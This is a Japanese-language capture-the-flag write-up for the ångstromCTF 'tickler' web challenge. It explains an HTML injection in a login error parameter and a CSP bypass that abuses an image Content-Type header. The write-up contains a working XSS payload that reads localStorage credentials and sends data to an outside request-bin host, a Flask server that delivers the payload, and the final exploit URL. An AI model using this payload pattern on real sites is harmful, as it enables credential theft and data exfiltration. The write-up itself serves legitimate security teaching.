




# tickler:web:180pts
Challenge: [https://tickler.web.actf.co/](https://tickler.web.actf.co/)  
Submit URLs to the simulated client here: [https://admin-bot.actf.co/tickler](https://admin-bot.actf.co/tickler)  

[server.ts](server.ts)  

# Solution
サイトとAdmin BotのURLと、ソースが渡される。  
アクセスすると、ユーザ検索、サインイン、ユーザ登録が行える。  
  
[Register](site/site2.png)  
[Sign in](site/site3.png)  
ユーザ検索はクエリにユーザ名が入り、`https://tickler.web.actf.co/user?name=hack`のようなURLとなる。  
また、検索したユーザを`Tickle!`でき、カウントが一つ増える。  
  
ユーザ登録の後にサインインすると、自身のプロフィールページが与えられ、プロフィール画像を外部URLからfetchできる。  
  
Admin BotがあることからXSSが怪しい。  
ひとまずフロントで動いている、`https://tickler.web.actf.co/build/client.js`をChatGPT 4oに投げてみる。  
  
`/login`の`error`クエリに脆弱性があるようだ。  
確かに`https://tickler.web.actf.co/login?error=%3Cs%3ESatoki%3Cimg%20src=1%3E`とするとHTMLタグが有効になっている。  
  
imgタグのonerrorでXSSできるかと思うが、CSPが`script-src 'self'`のようにかかっている。  
つまり、サイト内のどこかにJavaScriptファイルをアップロードし、それを読み取る必要がある。  
プロフィール画像のfetch箇所が怪しい。  
フラグの場所やCSP Bypass手法を調査するためにソースの主要箇所を見る。  
初めに、フラグの場所と取得できる条件を確認すると以下のようであった。  
```ts
~~~
    getFlag: authedProcedure.query(({ ctx }) => {
        if (tickles.get(ctx.user) !== Infinity) {
            return { success: false as const, message: 'Not enough tickles.' }
        }
        return { success: true as const, flag: process.env.FLAG }
    }),
~~~
    if (route === '/admin') {
        if (process.env.ADMIN === undefined) return end()

        const body: Buffer[] = []
        req.on('data', (chunk) => body.push(chunk))
        await new Promise((resolve) => req.on('end', resolve))

        const data = Buffer.concat(body).toString()
        if (data !== process.env.ADMIN) return end()

        const username = crypto.randomBytes(16).toString('hex')
        const password = crypto.randomBytes(16).toString('hex')

        users.set(username, password)
        tickles.set(username, Infinity)

        res.setHeader('content-type', 'application/json')
        return res.end(JSON.stringify({ username, password }))
~~~
```
フラグは`/getFlag`にあり、アクセスしたユーザの`tickles`が`Infinity`であると手に入る。  
Admin Botが`/admin`にアクセスした場合のみ、ランダムなusernameとpasswordでユーザが作成され、そのユーザの`tickles`は`Infinity`となる。  
何とか自身のアカウントの`tickles`を`Infinity`にできないだろうか。  
```ts
~~~
    doTickle: authedProcedure
        .input(z.object({ username: z.string() }))
        .mutation(({ input: { username }, ctx }) => {
            if (!users.has(username)) {
                return {
                    success: false as const,
                    message: 'User does not exist.',
                }
            }

            if (username === ctx.user) {
                return {
                    success: false as const,
                    message: 'Nice try.',
                }
            }

            const count = tickles.get(username) ?? 0
            tickles.set(username, count + 1)

            return { success: true as const }
        }),
~~~
```
`/doTickle`で値を増やせるが、自分自身を`Tickle!`することはできないようだ(できても`Infinity`が難しい)。  
つまりAdmin Botでアクセスするしかなく、そのためにはusernameとpasswordを保持したまま、XSSで`/getFlag`をfetchして奪う必要がある。  
それらクレデンシャルはCookieにはなく、localStorageに保存されているようだ。  
CSP Bypassのため、最も怪しいプロフィール画像のfetch箇所を見る。  
```ts
~~~
    setPicture: authedProcedure
        .input(z.object({ url: z.string() }))
        .mutation(async ({ input: { url }, ctx }) => {
            let response
            try {
                response = await fetch(url)
            } catch {
                return {
                    success: false as const,
                    message: 'Failed to fetch image.',
                }
            }

            if (!response.ok) {
                return {
                    success: false as const,
                    message: 'Failed to fetch image.',
                }
            }

            const reader = response.body?.getReader()
            if (reader === undefined) {
                return {
                    success: false as const,
                    message: 'No image data.',
                }
            }

            let size = 0
            const data = []
            while (true) {
                const { done, value } = await reader.read()
                if (done) break
                size += value.byteLength
                if (size > 1e6) {
                    return {
                        success: false as const,
                        message: 'Image too large.',
                    }
                }
                data.push(value)
            }

            const buffer = new Blob(data)
            const array = await buffer.arrayBuffer()
            const base64 = Buffer.from(array).toString('base64')
            pictures.set(ctx.user, {
                data: base64,
                type: response.headers.get('content-type') ?? 'image/png',
            })

            return { success: true as const }
        }),
~~~
```
プロフィール画像として外部のURLをfetchし、サイズなどのチェックの後にbase64エンコードしたデータとContent-Typeを保存している。  
また、`/picture`でクエリで指定したユーザ名のプロフィール画像が返ってくるようだ。  
```ts
~~~
    } else if (route === '/picture') {
        if (!url.includes('?')) return end()

        const query = new URLSearchParams(url.slice(url.indexOf('?')))
        const username = query.get('username')

        if (username === null) return end()

        const picture = pictures.get(username)
        if (picture === undefined) return end()

        const { data, type } = picture
        res.end(`data:${type};base64,${data}`)
~~~
```
```bash
$ curl 'https://tickler.web.actf.co/picture?username=hack'
data:image/jpeg;base64,/9j/4AAQSkZJRgABAQAAAQABA~~~
```
同じドメイン上のレスポンスとしてユーザからの入力が返ってくる機能であるため、CSP Bypassに用いることができそうだ。  
`data:`で始まり一見するとJavaScriptとして読み込めないと感じるが、Content-Typeを`alert(1);//`のようにすることで、`data:alert(1);//;base64,XXXXXXXXXX`のように有効なJavaScriptとすることができる。  
実行するXSSペイロードはlocalStorageのクレデンシャルを持ったまま`/getFlag`をfetchし、それを[リクエストを受信するサーバ](https://pipedream.com/requestbin)へ送信するものとなる。  
```js
fetch("/api/getFlag", {headers: {login: localStorage.username + ":" + localStorage.password, "content-type": "application/json"}}).then(res => res.text()).then(text => fetch("https://enqhnbwm4vjef.x.pipedream.net/?s=" + encodeURIComponent(text))); //satoki
```
以下のようなサーバをimg_server.pyとして外部に立て、プロフィール画像としてfetchさせることでXSSペイロードを設定すればよい。  
内容はbase64エンコードされるので、Content-typeに設定している点に注意が必要である。  
```python
from flask import Flask, Response

app = Flask(__name__)


@app.route("/")
def tickler():
    response = Response("Satoki")
    response.headers["Content-Type"] = (
        """fetch("/api/getFlag", {headers: {login: localStorage.username + ":" + localStorage.password, "content-type": "application/json"}}).then(res => res.text()).then(text => fetch("https://enqhnbwm4vjef.x.pipedream.net/?s=" + encodeURIComponent(text))); //satoki"""
    )
    return response


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
すると狙い通り`https://tickler.web.actf.co/picture?username=satoki`からXSSペイロードが降ってくるようになった。  
```bash
$ curl 'https://tickler.web.actf.co/picture?username=satoki'
data:fetch("/api/getFlag", {headers: {login: localStorage.username + ":" + localStorage.password, "content-type": "application/json"}}).then(res => res.text()).then(text => fetch("https://enqhnbwm4vjef.x.pipedream.net/?s=" + encodeURIComponent(text))); //satoki;base64,U2F0b2tp
```
あとはこれを`/login`の`error`クエリの脆弱性から読み込んで実行するだけだが、`error.innerHTML`であるためただのscriptタグを記述しても機能しない。  
CSPは`script-src 'self'`なのでimgタグのonerrorも利用できない。  
試行錯誤していると、iframeのsrcdocにscriptタグを記述すると動作することが分かったため、以下のようなURLをAdmin Botへ送信する。  
```
https://tickler.web.actf.co/login?error=<iframe srcdoc="<script src=https://tickler.web.actf.co/picture?username=satoki></script>"></iframe>
```
するとリクエストを受信するサーバへ以下のリクエストが届く。  
```
GET/
?s=%7B%22result%22%3A%7B%22data%22%3A%7B%22success%22%3Atrue%2C%22flag%22%3A%22actf%7Bc4d8f38d1195fda4b7e025f40e16942e%7D%22%7D%7D%7D
```
デコードするとflagが含まれていた。  

## actf{c4d8f38d1195fda4b7e025f40e16942e}